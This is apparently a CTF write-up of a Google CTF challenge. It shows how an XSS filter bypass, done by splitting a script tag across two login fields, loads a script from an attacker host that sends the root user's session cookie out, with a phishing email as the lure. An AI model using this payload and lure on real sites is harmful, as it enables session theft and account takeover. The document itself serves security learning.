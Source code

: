 ```yaml
---
layout: post
title: 'Google CTF: Beginners Quest - Router UI'
page-id: post
tags: [write-up]
---
```


> Using the domain found on the hardened aluminum key, you make your way on to the OffHub router. A revolutionary device that simplifies your life. You're at the UI page, but attempting to brute force the password failed miserably. If we could find an XSS on the page then we could use it to steal the root user session token. In case you find something, try to send an email to wintermuted@googlegroups.com. If you claim your link includes cat pictures, I'm sure Wintermuted will click it. I hope Chrome's XSS filter will not block the exploit though.
>
> https://router-ui.web.ctfcompetition.com/

In this challenge, we are shown a login form and need to find a way to steal the session token from the root user. We're given a hint about finding XSS somewhere on the page, but Chrome's XSS filter makes this a bit more difficult. Once we find a way to bypass this filter, we can send off an email to the root user containing a link and hope that they'll click it. From the challenge description, if we say the link has cat pictures, there's a good chance they'll do exactly that.

You can see the XSS filter in action by inputting something like `<script>alert('XSS');</script>` in one of the fields and submitting it. You should get an `ERR_BLOCKED_BY_XSS_AUDITOR` error. If we put some legit values, let's say `user` and `password`, into the login form and submit it, we're shown a page that states

`Wrong credentials: user//password`

Something of note here is that `//` is being used to separate the username and password. We can use this to our advantage to bypass Chrome's XSS filter. In particular, we'll use the `//` to help us craft a URL. To show what I mean, go back to the login form and set the username to `http:` and the password to `example.com` and then submit it.

`Wrong credentials: http://example.com`

BOOM! We can craft ourselves a URL. This by itself isn't all that useful. But we can take advantage of this by inputting a script into this field that loads a JS file, hosted by us, that will send the user's cookie to us. The script we'll end up using looks something like this:

`<script src="https://yourwebsite.com/cookie.js"></script>`

But of course, we can't just pass that into the form, we'll trigger the XSS filter. But by splitting it between the username and password fields as we did earlier, we can execute our own scripts. Here are the values we'll be using:

`username = <script src="https:`

`password = yourwebsite.com/cookie.js"></script>`

We have a way to attack the root user, now we just need them to submit a form with these values in it. To accomplish this, we'll first need to set up a website that handles this. Then we can email the link to them in hopes they'll click it.

NOTE: The website must have an SSL certificate. An easy way to do this is to use [Heroku](https://heroku.com/) to host the website.

We only need two files for this, a `js` and `html` file. The Javascript file's only job is to redirect the user to a URL and pass along their cookies. The HTML file will contain an exact copy of the login form located on the challenges page. Our form will submit the values of the `username` and `password` fields, set to our payload above, to the login form on `https://router-ui.web.ctfcompetition.com/login`. When submitted, our script will be loaded, thus sending the user's cookies to us.

<script src="https://gist.github.com/c3bd628bb16ea4cac13fe2ec741bb109.js"></script>

<script src="https://gist.github.com/b09e02aba41c19f629cef68162f90fa4.js"></script>

Our Javascript file is sending the user to a nonexistent page, which is fine since the request will be logged, allowing us to view the cookies being passed with it.

With the website set up, all we have to do now is send an email to `wintermuted@googlegroups.com` containing a link to `https://yourwebsite.com`. To play along with the challenge description, we should also set the subject line of the email to `Cat Pictures`.

Once the email is sent off, you should receive a confirmation within a few seconds. Watch your server logs and you'll see a request was made that includes some cookies. It'll look something like

`GET /cookie.html?flag=Try%20the%20session%20cookie;%20session=Avaev8thDieM6Quauoh2TuDeaez9Weja HTTP/1.1`

Looks as if the root user had two cookies:

`flag=Try the session cookie`

`session=Avaev8thDieM6Quauoh2TuDeaez9Weja`

If we enter these cookies into our browser and navigate to `https://router-ui.web.ctfcompetition.com/`, we'll be greeted with the dashboard. On this page, the first thing that jumps out at me are the two credential fields. If we look at either one of those values, we can see it contains the flag: `CTF{Kao4pheitot7Ahmu}`.